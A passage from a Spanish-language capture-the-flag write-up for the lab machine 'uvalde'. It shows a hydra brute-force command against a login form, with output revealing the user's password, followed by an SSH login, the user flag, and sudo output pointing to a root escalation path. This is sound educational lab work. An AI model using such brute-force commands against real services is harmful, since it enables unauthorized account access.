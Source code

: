 Veremos que nos ha generado el diccionario de forma correcta, por lo que vamos a realizar `fuerza bruta` en el archivo de `login.php` mediante `hydra`.

## Escalate user matthew

### Hydra

```shell
hydra -l matthew -P diccionario.txt <IP> http-post-form "/login.php:username=^USER^&password=^PASS^:S=302"
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-18 03:32:56
[DATA] max 16 tasks per 1 server, overall 16 tasks, 10000 login tries (l:1/p:10000), ~625 tries per task
[DATA] attacking http-post-form://192.168.5.23:80/login.php:username=^USER^&password=^PASS^:S=302
[80][http-post-form] host: 192.168.5.23   login: matthew   password: matthew2023@1554
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-18 03:33:24
```

Veremos que hemos obtenido las credenciales de dicho usuario, ahora si las probamos en el `login.php`, veremos que si nos deja, pero no veremos gran cosa, por lo que vamos a probarlas por `SSH` a ver si funcionan.

### SSH

```shell
ssh matthew@<IP>
```

Metemos como contraseña `matthew2023@1554` y veremos que estamos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
6e4136fbed8f8c691996dbf42697d460
```

## Escalate Privileges

SI hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for matthew on uvalde:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User matthew may run the following commands on uvalde:
    (ALL : ALL) NOPASSWD: /bin/bash /opt/superhack
```
